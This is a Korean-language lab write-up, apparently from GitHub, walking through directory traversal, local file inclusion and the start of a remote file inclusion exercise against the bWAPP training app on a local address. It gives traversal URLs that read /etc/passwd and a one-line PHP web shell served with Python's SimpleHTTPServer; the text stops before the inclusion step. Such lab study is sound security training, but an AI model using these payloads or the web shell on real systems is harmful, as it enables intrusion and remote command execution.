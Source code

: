 
## Directory Traversal - Files

![image](https://user-images.githubusercontent.com/28076542/52852234-5a671200-315b-11e9-92b6-4781817a1217.png)

* URL: `https://192.168.190.143:8443/bWAPP/directory_traversal_1.php?page=message.txt`에서
* URL: `https://192.168.190.143:8443/bWAPP/directory_traversal_1.php?page=../../../../../../../etc/passwd`로 접속

### etc/passwd 파일 확인

![image](https://user-images.githubusercontent.com/28076542/52852360-b16ce700-315b-11e9-85fb-df6948df0ce2.png)

---

## LFI 와 RFI

![image](https://user-images.githubusercontent.com/28076542/52852433-ebd68400-315b-11e9-951c-01ea799abdf2.png)

* LFI: PHP에 서버 내부에 있는 파일을 가져오는 것
* RFI: PHP에 서버 외부에 있는 파일을 가져오는 것

---

## Remote & Local File Inclusion (RFI/LFI)

![image](https://user-images.githubusercontent.com/28076542/52852567-57205600-315c-11e9-84a5-82d0bff362ff.png)

* English로 설정 후 Go 버튼을 누르면 URL이 다음과 같이 바뀜
* URL: `https://192.168.190.143:8443/bWAPP/rlfi.php?language=lang_en.php&action=go`
* **lang_en.php**에서 파일을 가져옴 --> **LFI**

### LFI 방식으로 passwd 가져오기

![image](https://user-images.githubusercontent.com/28076542/52853230-483aa300-315e-11e9-8a00-650fad50ef2d.png)

* URL: `https://192.168.190.143:8443/bWAPP/rlfi.php?language=../../../../../../../etc/passwd&action=go`

### RFI 방식으로 passwd 가져오기

#### 1. rfi.php 파일을 다음과 같이 작성

```php
<?php echo "<script>alert(\"Succeed\")</script>";system($_GET["cmd"]);?>
```

#### 2. 터미널에서 python으로 서버 열기

```bash
root@ming:~# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
```
